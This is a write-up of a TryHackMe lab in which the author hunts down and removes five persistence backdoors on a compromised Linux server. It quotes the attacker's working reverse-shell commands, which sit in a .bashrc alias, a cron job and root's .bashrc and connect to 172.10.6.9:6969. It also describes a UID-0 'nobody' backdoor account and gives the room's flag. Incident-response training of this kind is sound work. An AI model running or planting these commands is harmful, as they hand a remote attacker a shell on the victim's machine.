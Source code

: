 # [TryHackMe - Tardigrade](https://tryhackme.com/room/tardigrade)
![e3c209fe00d6503716cccae1db4969f3.png](/resources/e3c209fe00d6503716cccae1db4969f3.png)
***
[toc]
***
## Connect to the machine via SSH
**A server has been compromised, and the security team has decided to isolate the machine until it's been thoroughly cleaned up. Initial checks by the Incident Response team revealed that there are five different backdoors. It's your job to find and remediate them before giving the signal to bring the server back to production.**

>What is the server's OS version?

![dcf367d3e49a53520655ef25b7a86d2a.png](/resources/dcf367d3e49a53520655ef25b7a86d2a.png)

After connected to the compromised machine via SSH, we can use either of these command to get the OS version of this machine 
- `cat /etc/issues`
- `cat /etc/os-release`
- `hostnamectl`
- `lsb_release -a`
- `uname -a`

```
Ubuntu 20.04.4 LTS
```

* * *
## Investigating the giorgio account
**Since we're in the giorgio account already, we might as well have a look around.**

>What's the most interesting file you found in giorgio's home directory?

![1848406cbece65641b1b4f6613987956.png](/resources/1848406cbece65641b1b4f6613987956.png)

First thing we could do when investigate malware residing on the home directory is to run `ls -lha` which will display all files including hidden files of the current directory then we can see that `.bad_bash` appears to be very suspicious one since the rest are common files/folders that could be found on other Linux systems as well plus the file owns by root on other user directory is always picking an interested.  

![9e9e5c3644691f81a9bb8e978a81b306.png](/resources/9e9e5c3644691f81a9bb8e978a81b306.png)

By using `file` utility, we can see that this file is ELF file so its a standard binary to be executed on Linux and this file appears to be the answer of this question as well.

```
.bad_bash
```

>In every investigation, it's important to keep a dirty wordlist to keep track of all your findings, no matter how small. It's also a way to prevent going back in circles and starting from scratch again. As such, now's a good time to create one and put the previous answer as an entry so we can go back to it later. <br>
Another file that can be found in every user's home directory is the .bashrc file. Can you check if you can find something interesting in giorgio's .bashrc?

![b724eda620d469b6114bff2a5a98fd04.png](/resources/b724eda620d469b6114bff2a5a98fd04.png)

`.bashrc` file is a script file that executed when respective user login which contains a lot of configuration, alias and can be abused to add persistence shell command within it and seem like we have one in this case as well, the attacker set alias for `ls` command to execute reverse shell command to 172.10.6.9 on port 6969.

```
ls='(bash -i >& /dev/tcp/172.10.6.9/6969 0>&1 & disown) 2>/dev/null; ls --color=auto'
```

>It seems we've covered the usual bases in giorgio's home directory, so it's time to check the scheduled tasks that he owns.<br>
Did you find anything interesting about scheduled tasks?

![2dba2c78f82ea98eb93732b6631ea844.png](/resources/2dba2c78f82ea98eb93732b6631ea844.png)

Another popular persistence mechanism on Linux is cronjob which we can use `crontab -l` to list cronjob own by respective user who executed the command and in this case, we can see that there is an another reverse shell script being executed every minute to the same IP address and port from previous question.

```
/usr/bin/rm /tmp/f;/usr/bin/mkfifo /tmp/f;/usr/bin/cat /tmp/f|/bin/sh -i 2>&1|/usr/bin/nc 172.10.6.9 6969 >/tmp/f
```

* * *
## Investigating the root account
**Normal user accounts aren't the only place to leave persistence mechanisms. As such, we will then go ahead and investigate the root account.**

>A few moments after logging on to the root account, you find an error message in your terminal. <br>
What does it say?

![035f02b78c7ccfbca0c437be759eab22.png](/resources/035f02b78c7ccfbca0c437be759eab22.png)

By running `sudo -l`, we can see that current user is capable to execute any command as root so we can switch to root user with `sudo su` and then as soon as we entered root shell, and error message displayed as seen in the image above. and this error exclusively has something to do with `ncat` so its likely to be another persistence mechanism to execute reverse shell as root.

```
Ncat: TIMEOUT.
```

>After moving forward with the error message, a suspicious command appears in the terminal as part of the error message. <br>
What command was displayed?

![59020ce51dc3aff17abc6384b201b07b.png](/resources/59020ce51dc3aff17abc6384b201b07b.png)

After typing "Enter", we can see the command that triggered the error and we confirmed that this is the reverse shell command that will connect to the same IP address we found earlier. 

```
ncat -e /bin/bash 172.10.6.9 6969
```

>You might wonder, "how did that happen? I didn't even do anything? I just logged as root, and it happened." <br>
Can you find out how the suspicious command has been implemented?

![02c3aa79d818ffdd1a444be3906353dc.png](/resources/02c3aa79d818ffdd1a444be3906353dc.png)

When switch user to root, the behavior is likely to be the same as login and the persistence mechanism that can be triggered via login on each user is `.bashrc` which we can see that there is the same command we found from the previous question reside on the `.bashrc` of root user. 

```
.bashrc
```

* * *
## Investigating the system
**After checking the giorgio and the root accounts, it's essentially a free-for-all from here on, as finding more suspicious items depends on how well you know what's "normal" in the system.**

>There's one more persistence mechanism in the system.<br>
A good way to systematically dissect the system is to look for "usuals" and "unusuals". For example, you can check for commonly abused or unusual files and directories.<br>
This specific persistence mechanism is directly tied to something (or someone?) already present in fresh Linux installs and may be abused and/or manipulated to fit an adversary's goals. What's its name?<br>
What is the last persistence mechanism?

![af3fde8558c47fce831f1ec1ff05935d.png](/resources/af3fde8558c47fce831f1ec1ff05935d.png)

Since there is no SSH public key backdoor and cronjob as root found, I checked all users from `/etc/passwd` which I found that there is another user with has the same uid as root which mean this user is another root user on this machine and it just happened to be the backdoor user and the last persistence mechanism we are looking for.

```
nobody
```

* * *
## Final Thoughts
**Now that you've found the final persistence mechanism, it's time to clean up. The persistence mechanisms tackled in this room are common and straightforward; as such, the process of eradicating them is simple.**

**The first four persistence mechanisms can be remediated by simply removing the mechanism (e.g. delete the file, remove the commands). The last one, however, involves bringing back the "unusuals" to their "usual" state, which is a bit more complex as you intend for that particular user, file or process to function as before.**

>Finally, as you've already found the final persistence mechanism, there's value in going all the way through to the end. <br>
The adversary left a golden nugget of "advise" somewhere. <br>
What is the nugget?

![9c0db4a5c4137ec5ffc97bb2aeb9a9ff.png](/resources/9c0db4a5c4137ec5ffc97bb2aeb9a9ff.png)

From the previous result (`/etc/passwd`), we found that the home directory of nobody user is `/nonexistence` so I went to this directory and list all the files which there is 1 hidden file that really stand out here that contains a flag so we can display the content of this file with `cat` directly.

```
THM{Nob0dy_1s_s@f3}
```

![f6fac30d86db78725cde01455aaae920.png](/resources/f6fac30d86db78725cde01455aaae920.png)

And we are done!
***